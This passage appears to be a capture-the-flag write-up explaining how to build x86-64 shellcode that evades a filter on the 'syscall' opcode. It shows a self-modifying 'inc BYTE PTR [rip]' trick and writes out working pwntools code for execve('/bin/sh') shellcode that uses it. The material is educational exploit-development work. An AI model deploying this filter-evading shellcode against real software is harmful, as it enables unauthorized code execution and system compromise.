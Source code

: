 Initially, I thought of somehow not using `syscall` instructions at all. However, a quick Google search showed me [this](https://stackoverflow.com/questions/52620930/is-there-a-way-to-write-shellcode-for-sendfile-that-does-not-use-syscall-instruc):
> Or even easier, start with `0e 05` ... in memory, and use `inc  byte ptr  syscall_location[rip]` to modify it to `0f 05` ...

As the opcode of `syscall` is `0f 05`, the idea is to first write `0e 05` in our shellcode, and then increment the instruction using `inc BYTE PTR [rip]` to make it `0f 05`: 
```shell
fe 05 00 00 00 00       inc    BYTE PTR [rip]   // increment instruction below by 1
0e 05                   ???                     // becomes syscall when executed
```

Now that we have a way to use `syscall` instructions, all that's left to do is write shellcode to pop shell, which is trivial with `pwntools`:
``` shell
$ python
Python 2.7.18 (default, Aug  4 2020, 11:16:42)
[GCC 9.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> print disasm(asm(shellcraft.sh()))
   0:   6a 68                   push   0x68
   2:   68 2f 2f 2f 73          push   0x732f2f2f
   7:   68 2f 62 69 6e          push   0x6e69622f
   c:   89 e3                   mov    ebx, esp
   e:   68 01 01 01 01          push   0x1010101
  13:   81 34 24 72 69 01 01    xor    DWORD PTR [esp], 0x1016972
  1a:   31 c9                   xor    ecx, ecx
  1c:   51                      push   ecx
  1d:   6a 04                   push   0x4
  1f:   59                      pop    ecx
  20:   01 e1                   add    ecx, esp
  22:   51                      push   ecx
  23:   89 e1                   mov    ecx, esp
  25:   31 d2                   xor    edx, edx
  27:   6a 0b                   push   0xb
  29:   58                      pop    eax
  2a:   cd 80                   int    0x80
```

We simply replace the last `int 0x80` instruction with `inc    BYTE PTR [rip]`, and append `0e 05` to the end of our shellcode:
```python
shellcode = asm(
        "push   0x68;"
        "movabs rax, 0x732f2f2f6e69622f;"
        "push   rax;"
        "mov    rdi, rsp;"
        "push   0x1016972;"
        "xor    DWORD PTR [rsp], 0x1010101;"
        "xor    esi, esi;"
        "push   rsi;"
        "push   0x8;"
        "pop    rsi;"
        "add    rsi, rsp;"
        "push   rsi;"
        "mov    rsi, rsp;"
        "xor    edx, edx;"
        "push   0x3b;"
        "pop    rax;"
        "inc    BYTE PTR [rip];",
        arch = 'amd64', os = 'linux'
    )

a = ['0x{:02x}'.format(u8(a))[2:] for a in shellcode]   # Converting shellcode to hex string
```